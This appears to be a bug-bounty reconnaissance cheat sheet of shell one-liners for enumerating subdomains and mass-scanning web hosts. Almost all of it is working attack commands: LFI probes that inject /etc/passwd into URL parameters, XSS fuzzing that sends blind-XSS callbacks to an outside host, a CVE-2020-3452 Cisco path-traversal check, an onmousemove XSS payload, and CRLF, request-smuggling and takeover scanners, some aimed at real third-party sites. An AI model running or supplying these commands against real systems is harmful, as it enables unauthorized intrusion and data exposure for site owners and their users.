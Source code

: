 # Method 1

## domains

cat wildcards.txt | assetfinder -subs-only | anew domains

amass enum -df wildcards.txt | anew domains

subfinder -silent -dL wildcards.txt| anew domains

## one liners and tools

crlfuzz -l uniq.txt -s

gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

waybackurls uniq.txt | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt

python3 ~/tools/Corsy/corsy.py -i uniq.txt 

python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 

python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q

python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt

while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domains
        * CVE-2020-3452

cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

cat domains | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done 

subzy -targets domains -hide_fails



## Heavy 

sort -u domains | httprobe > uniq.txt

eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## dalfox

python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt

dalfox -b l3gend.xss.ht file param.txt
